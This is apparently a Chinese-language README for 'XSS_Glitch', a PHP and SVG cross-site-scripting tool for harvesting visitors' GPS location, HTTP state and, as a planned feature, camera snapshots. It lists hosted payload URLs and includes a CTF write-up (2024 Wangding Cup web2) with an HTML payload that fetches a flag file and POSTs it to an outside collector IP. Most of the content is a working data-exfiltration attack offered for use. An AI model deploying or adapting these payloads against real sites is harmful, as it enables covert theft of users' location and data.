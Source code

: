 # XSS_Glitch
用一个简单的php脚本实现XSS简单数据获取

- GPS定位信息
- 摄像头截屏 [todo]
- HTTP状态保存

反正就是简单的不能再简单的一个用户信息获取脚本

### 使用方法

有√8使用方法，svg和php放到目录即可，然后随机访问上述两个文件

```
http://bfs.iloli.moe/po7mn1.svg
http://bfs.iloli.moe/po7mn1.php
```

### 实战

2024网鼎杯青龙组 web2

准备payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="test1.js">
    </script>
</head>
<body>
    111
    <script>
        fetch('http://3.88.127.66/flag.txt').then(response => response.text()).then(data => {
            fetch('http://3.88.127.66/xss-glitch.php', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                body: "content=123" + data
            })
        })
    </script>
</body>
</html>
```

然后插爆服务器拿到flag

![image-20241030152616320](./assets/image-20241030152616320.png)
